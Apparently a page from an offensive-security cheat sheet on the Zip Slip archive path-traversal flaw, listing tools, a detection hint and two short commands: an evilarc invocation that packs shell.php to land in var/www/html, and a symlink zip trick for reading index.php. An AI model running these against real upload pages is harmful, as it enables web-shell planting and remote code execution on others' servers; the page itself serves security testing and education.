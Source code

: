 # Zip Slip

> The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../shell.php). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar and 7z. The attacker can then overwrite executable files and either invoke them remotely or wait for the system or user to call them, thus achieving remote command execution on the victim’s machine. 


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Detection](#detection)
    * [Basic Exploit](#basic-exploit)
* [Additional Notes](#additional-notes)


## Tools

- [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) - Create tar/zip archives that can exploit directory traversal vulnerabilities 
- [usdAG/slipit](https://github.com/usdAG/slipit) - Utility for creating ZipSlip archives 


## Methodology

### Detection

Any ZIP upload page on the application.


### Basic Exploit

Using [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc):

```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

Creating a ZIP archive containing a symbolic link:

```ps1
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```


### Additional Notes

For affected libraries and projects, visit [snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)


## References

- [Zip Slip - Snyk - Jun 5, 2018](https://github.com/snyk/zip-slip-vulnerability)
- [Zip Slip Vulnerability - Snyk - April 15, 2018](https://snyk.io/research/zip-slip-vulnerability)